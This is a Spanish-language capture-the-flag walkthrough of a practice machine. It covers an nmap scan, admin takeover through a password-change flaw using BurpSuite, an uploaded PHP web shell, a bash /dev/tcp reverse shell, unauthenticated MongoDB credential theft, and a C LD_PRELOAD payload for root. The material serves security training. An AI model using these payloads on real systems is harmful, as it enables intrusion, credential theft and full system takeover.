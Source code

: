 ### Tags: `mongo` `LD_PRELOAD` 

# Escaneo (*22,80*)

```css
 sudo nmap -p- 172.17.0.2 -sSVC --min-rate 5000 -n -Pn --open -oN escaneo.txt
```
![image](https://github.com/user-attachments/assets/6c99e2d1-7caf-4280-83fb-8b982c975dec)

# Web port80
En la web tenemos un *dominio* `skycouriers.thm` que vamos a agregar al `/etc/hosts`

![image](https://github.com/user-attachments/assets/08970ac0-b2dd-446f-8098-3244663376ea)

 Investigando el web encontramos un *panel de login*

 ![image](https://github.com/user-attachments/assets/a90be2c6-b5dc-4195-8d02-3d5bcf75c500)

Como no encontramos nada lo que vamos a hacer es registrarnos como `test@test.com:test123` 

![image](https://github.com/user-attachments/assets/3a139dd0-a9e1-4ba3-8758-aa4eb7c8da11)

Tuvimos éxito y estamos dentro

![image](https://github.com/user-attachments/assets/6b5a885f-791f-4f23-bc09-ac4ee125cd06)

## Explotación
Vemos esto que solo `admin@sky.thm` tiene acceso

![image](https://github.com/user-attachments/assets/5a88c32d-c67f-4ea1-a217-54c161ef67de)

Tambien encontramos esto otro para cambiar la contraseña sin tener que poner la de antes, curioso

![image](https://github.com/user-attachments/assets/c89d7588-67c9-4029-a45a-012d0eb7117d)

### BurpSuite
Con BurpSuite interceptamos la **petición** para ver que onda

![image](https://github.com/user-attachments/assets/f6953ed4-370d-4b15-85a9-6d2b7fd8dea9)

Lo que vamos a hacer es modificar la contraseña de ``admin@sky.thm`` y le damos a `forward` y listo

![image](https://github.com/user-attachments/assets/e5eb4091-7a00-4a7e-ad96-2a80d4c3ce6c)

 Estamos dentro como `admin`

 ![image](https://github.com/user-attachments/assets/f9d225ae-1222-404c-b217-c73e173b231f)

# Dentro (**admin**)
Ahora para darnos una acceder a la máquina lo tenemos que hacer por acá ya que ahora si podemos (porque somos admin)

![image](https://github.com/user-attachments/assets/1d9b4de1-38d2-48c3-95c8-5ec885bd64e0)

Vemos que los archivos se suben a `/v2/profileimages/..`

![image](https://github.com/user-attachments/assets/65d367eb-8a21-4e91-8cda-b359f4eaa1d6)

Por ende subimos este archivo ``shell.php``  que creamos en nuestra máquina

```css
<?php
        system($_GET['cmd']);
?>
```
![image](https://github.com/user-attachments/assets/0b73dfa3-ca37-4bcc-be1f-37488f5f5354)

Vemos que funcionó

![image](https://github.com/user-attachments/assets/0ffe33d3-3103-4e1e-b657-88faf017b6b3)

Ahora nos mandamos un ReverseShell  `bash -c "bash -i >%26 /dev/tcp/10.2.1.196/443 0>%261"`. (antes `nc -nlvp 443`)

![image](https://github.com/user-attachments/assets/a98d0ae0-fec3-49f8-8fd1-6f047c3c3836)
![image](https://github.com/user-attachments/assets/ec92631b-2777-4fab-a74d-65c32f233194)

# Escalada (**webdeveloper**)
Con este comando `ss -ntulp`   enumero puertos internos  y vemos que en este puerto corre **MONGO**

![image](https://github.com/user-attachments/assets/890ff98b-facd-4029-a123-281914575d25)

Tratamos de conectarnos *sin proporcionar contraseña* y tuvimos éxito, ejecutando `mongo`en la terminal

![image](https://github.com/user-attachments/assets/85330a15-53a8-4aff-acfc-1690496283b4)

Listamos las bases de datos disponibles con `show dbs`, `use backup` para acceder, `show collections;` para listar las tabas y por ultimo `db.user.find();` para leer el contenido de la tabla.

![image](https://github.com/user-attachments/assets/7017e1d9-cdf6-44c7-82cc-65385b5c8326)

Vemos que el usuario existe 

![image](https://github.com/user-attachments/assets/d6130683-9a62-49bc-95b8-6c95f3f4812d)

Por ende *introducimos* su contraseña y estamos dentro

![image](https://github.com/user-attachments/assets/ac81a2d1-4ac2-422e-a0ca-200719de1ffb)

## Ecalada ROOT

 Haciendo `sudo -l` vemos esto:

 ![image](https://github.com/user-attachments/assets/60142a56-e40c-46aa-90af-60b439ed6fc4)

``LD_PRELOAD`` es una función que permite a cualquier programa utilizar bibliotecas compartidas.
Buscando en Google como escalar privilegios, encontramos este en en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path), seguimos los pasos que dice ahí.
Codigo:

```c++
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Por mas que de ese error cuando compilamos funciona igual y somos ¡``root``!

![image](https://github.com/user-attachments/assets/1738ee65-707a-4fe7-bcfe-d3dc33b66db7)













